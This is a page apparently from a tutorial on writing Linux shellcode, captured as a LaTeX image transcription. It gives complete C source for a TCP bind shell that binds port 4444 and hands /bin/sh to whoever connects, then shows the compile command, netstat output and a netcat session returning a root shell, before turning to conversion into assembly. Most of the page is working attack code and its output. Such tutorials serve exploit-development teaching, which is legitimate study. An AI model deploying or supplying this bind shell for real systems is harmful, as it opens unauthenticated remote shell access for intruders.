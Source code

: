 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
  #include <stdio.h>
  #include <netinet/in.h>
  #define PORT 4444

  int main(int argc, char **argv) {
    // Create a socket
    int lsock = socket(AF_INET, SOCK_STREAM, 0);

    // Setup servr side config struct
    // We configure:
    // The family:IPv4
    // The interface: 0.0.0.0 (any)
    // The port: port#
    struct sockaddr_in config;
    config.sin_family = AF_INET;
    config.sin_addr.s_addr = INADDR_ANY;
    // The htons() function converts the
    // unsigned short integer hostshort from host byte
    // order to network byte order.
    config.sin_port = htons(PORT);

    // Bind the created socket with the interface
    // specified in the configuration
    bind(lsock, (struct sockaddr *)&config, sizeof(config));

    // Listen on the socket
    listen(lsock, 0);

    // Accept the incoming connection
    int csock = accept(lsock, NULL, NULL);

    // Redirect stdin, stdout, and stderror
    dup2(csock, 0);
    dup2(csock, 1);
    dup2(csock, 2);

    // Execute a shell
    execve("/bin/sh", NULL, NULL);
};
\end{verbatim}

Compiling this code with \verb~gcc bindshell.c -o bindshell~ gives us a
nice executable. Running the executable with \verb~./bindshell~ and then
looking at our network using \verb~netstat -antp~ yields something very
interesting\ldots{}

\begin{verbatim}
root@blahblah:~# netstat -atp Active Internet connections (servers and
established) Proto Local Address Foreign Address State PID/Program
name tcp *:4444 *:* LISTEN 1657/bindshell
\end{verbatim}

Excellent! We have /bin/sh listen bound to a port. If we open up
another terminal and use netcat to connect to port 4444 by running \verb~nc -nv -nv 127.0.0.1 4444~ we will get:

\begin{verbatim}
root@blahblah:~# nc -nv 127.0.0.1 4444 (UNKNOWN) [127.0.0.1] 4444 (?)
open id uid=0(root) gid=0(root) groups=0(root)
\end{verbatim}

Perfect! We have a tcp bind shell connection. Now we have to convert
this to assembly\ldots{}
\end{document}
